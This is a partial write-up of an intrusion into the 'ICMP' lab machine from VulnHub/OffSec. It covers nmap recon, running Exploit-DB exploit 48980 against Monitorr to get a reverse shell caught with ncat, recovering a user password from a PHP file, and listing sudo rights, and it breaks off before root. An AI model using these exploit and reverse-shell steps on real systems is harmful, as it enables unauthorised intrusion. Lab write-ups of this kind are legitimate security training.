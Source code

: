 ```yaml
---
description: VulnHub & OffSec ICMP machine writeup
cover: ../../.gitbook/assets/image (20) (1).png
coverY: 0
---
```


# \[Intermediate] ICMP

### Recon

#### Services                                                                                                                                                               21ms  ✓&#x20;

```bash
─$ nmap -sC -sV -v -T5 icmp                                     
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 deb52389bb9fd41ab50453d0b75cb03f (RSA)
|   256 160914eab9fa17e945395e3bb4fd110a (ECDSA)
|_  256 9f665e71b9125ded705a4f5a8d0d65d5 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-title:             Monitorr            | Monitorr        
|_Requested resource was http://icmp/mon/
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Subdirs

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

#### Monitorr

<figure><img src="../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

\+ link on repo:

{% embed url="https://github.com/Monitorr/Monitorr" %}

### www-data

Exploit:&#x20;

{% embed url="https://www.exploit-db.com/exploits/48980" %}

{% code overflow="wrap" %}
```bash
$  python3 48980.py http://192.168.110.218/mon/ 192.168.49.110 4444
```
{% endcode %}

<pre class="language-bash"><code class="lang-bash">$ ncat -nvlp 4444 
<strong>www-data@icmp:/var/www/html/mon/assets/data/usrimg$ pwd
</strong>/var/www/html/mon/assets/data/usrimg
</code></pre>

### Privelege Escalation

#### www-data to fox

<mark style="color:red;">`pspy`</mark> <mark style="color:red;"></mark><mark style="color:red;"></mark> enum didn't gave me anything, so I checked machine for another users:

```bash
www-data@icmp:/var/www/html/mon/assets/data/usrimg$ ls /home    
ls /home
fox
www-data@icmp:/var/www/html/mon/assets/data/usrimg$ ls -lsa /home/fox
ls -lsa /home/fox
total 20
4 drwxr-xr-x 3 root root 4096 Dec  3  2020 .
4 drwxr-xr-x 3 root root 4096 Dec  3  2020 ..
0 lrwxrwxrwx 1 root root    9 Dec  3  2020 .bash_history -> /dev/null
4 drwx--x--x 2 fox  fox  4096 Dec  3  2020 devel
4 -rw-r--r-- 1 fox  fox    33 Feb 27 19:04 local.txt
4 -rw-r--r-- 1 root root   78 Dec  3  2020 reminder

```



Checking <mark style="color:orange;">`reminder`</mark> we get a hint:

```bash
www-data@icmp:/home/fox$ cat reminder

crypt with crypt.php: done, it works
work on decrypt with crypt.php: howto?!?
```

<pre class="language-php"><code class="lang-php">www-data@icmp:/home/fox$ cat devel/crypt.php
<strong>&#x3C;?php
</strong><strong>echo crypt('BUHNIJMONIBUVCYTTYVGBUHJNI','da'); 
</strong><strong>?>
</strong></code></pre>

```bash
www-data@icmp:/home/fox$ ls
ls
devel
local.txt
reminder
www-data@icmp:/home/fox$ su fox
su fox
Password: BUHNIJMONIBUVCYTTYVGBUHJNI

$ python -c 'import pty; pty.spawn("/bin/bash")'

fox@icmp:~$ whoami
whoami
fox
```

#### fox to root

<mark style="color:red;">`sudo -l:`</mark>

```bash
fox@icmp:~$ sudo -l 
sudo -l 
Matching Defaults entries for fox on icmp:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fox may run the following commands on icmp:
    (root) /usr/sbin/hping3 --icmp *
    (root) /usr/bin/killall hping3

```

\~ soon \~
